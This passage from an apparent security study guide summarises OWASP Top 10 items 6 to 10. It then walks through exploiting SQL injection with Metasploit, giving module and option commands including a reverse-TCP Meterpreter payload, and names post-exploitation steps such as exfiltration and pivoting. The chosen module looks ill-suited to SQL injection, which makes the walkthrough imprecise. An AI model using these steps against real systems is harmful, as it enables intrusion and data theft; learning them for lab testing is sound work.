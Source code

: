 6. **Vulnerable and Outdated Components** - Using components with known vulnerabilities can allow attackers to target the application through those components. Regular updates, tracking advisories, and monitoring for outdated components are key.
7. **Identification and Authentication Failures** - Flawed authentication mechanisms, weak credentials, improper session management, etc. enable account compromises and unauthorized access. Multi-factor authentication, strong crypto, and properly implemented identity and access controls help mitigate this.
8. **Software and Data Integrity Failures** - Incorrect assumptions about software, data, and pipeline integrity can lead to unauthorized data access and system compromise. Input and output validation and verifying integrity at every step reduces this risk.
9. **Security Logging and Monitoring Failures** - Without proper event logging, detection, response, and forensic capabilities, attackers can further exploit systems without detection. Effective logging and monitoring are crucial.
10. **Server-Side Request Forgery (SSRF)** - Attackers can abuse functionality to force the server to make arbitrary requests to internal or external systems outside of its intended scope, leading to information disclosure or network compromise.

### How would you use Metasploit to exploit a SQL injection vulnerability?

Here is a comprehensive walkthrough for exploiting SQL injection vulnerabilities using Metasploit:

**Prerequisites:**

- Set up an isolated lab environment to safely and legally practice exploitation.
- Install and configure Metasploit on your attacking machine.

**Steps:**

1. Reconnaissance
    - Identify the target web application and determine potential injection points like login forms.
    - Test for SQLi manually using SQL payloads or tools like sqlmap.
    - Confirm that the application is vulnerable to SQL injection.
2. Select a Metasploit module
    - Search for suitable Metasploit modules using 'search sql injection'.
    - Select a specific module based on the target's technology stack and version.
    
    For example:
    
    ```
    use exploit/windows/mssql/mssql_payload
    ```
    
3. Configure the module's options
    - Set required options like RHOST, payload type, vulnerable parameter, etc.
    - Verify options using 'show options'.
    
    For example:
    
    ```
    set RHOST 192.168.1.105
    set PAYLOAD windows/meterpreter/reverse_tcp
    exploit
    ```
    
4. Execute the exploit
    - Run the module to exploit the SQLi vulnerability using the configured payload.
    - If successful, you will get a Meterpreter session.
5. Post-exploitation
    - Use the session to carry out further actions per the scope, like data exfiltration, privilege escalation, pivoting, etc.
    - Avoid exceeding the test scope or causing damage.
6. Cleanup
    - Once finished, clean up all sessions, payloads, files, etc. from the target.

